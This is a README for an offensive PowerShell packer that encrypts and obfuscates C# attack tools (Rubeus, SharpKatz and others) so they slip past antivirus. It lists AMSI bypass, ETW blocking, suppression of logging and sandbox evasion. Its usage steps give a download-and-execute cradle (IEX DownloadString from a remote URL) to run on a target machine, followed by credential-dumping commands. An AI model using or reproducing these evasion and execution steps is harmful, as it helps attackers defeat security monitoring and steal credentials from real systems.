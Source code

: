 ### Invoke-PoSH-CsharpPacker v2.0
--------------------------------------
'Invoke-PoSH-CsharpPacker' allows to pack and encrypt offensive (C#) .NET executable files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the (C#) .NET executable file.

_Work in progress / Tests:   
I tested successfully my packer script with the C# tools 'Rubeus', 'SharpKatz', 'SharSecDump', 'SharpUp' and 'SharpChromium' on a Windows server 2016
with 2 AV solutions enabled and up-to-date (including Windows Defender).  
However, unlike for Windows server 2016, the packed scripts are blocked on Windows 10 laptops when Windows Defender is enabled._

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file (e.g. Rubeus.exe, Sharpkatz.exe) stored locally or on a remote web server.  
```
PS C:\> Import-Module ./Invoke-PoSH-CsharpPacker.ps1
PS C:\> Invoke-PoSH-CsharpPacker -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1
--- or ---
PS C:\> Invoke-PoSH-CsharpPacker -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
```
PS C:\> Import-Module ./Invoke-PoSH-CsharpPacker.ps1
PS C:\> Invoke-PoSH-CsharpPacker -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 
--- or ---
PS C:\> Invoke-PoSH-CsharpPacker -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your (C#) .NET executable file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-Csharp-binary.ps1'); 
--- or ---
PS C:\> WGET -URI https://URL/Packed-Csharp-binary.ps1 -OutFile C:\temp\Packed-Csharp-binary.ps1
PS C:\> Import-Module C:\temp\Packed-Csharp-binary.ps1
``` 
  - Step 3. Execute the packed version of your (C#) .NET executable file   
    - Generic command: ``` PS C:\> Invoke-Packed-NET-Executable argument1 argument2 argument3 ...``` 
    - Exemple with a packed version of Rubeus.exe: ```Invoke-Packed-NET-Executable logonsession /current```  
    - Example with a packed version of Sharpkatz.exe: ```Invoke-Packed-NET-Executable --Command logonpasswords``` 


#### LICENSE
  - GNU General Public License v3.0
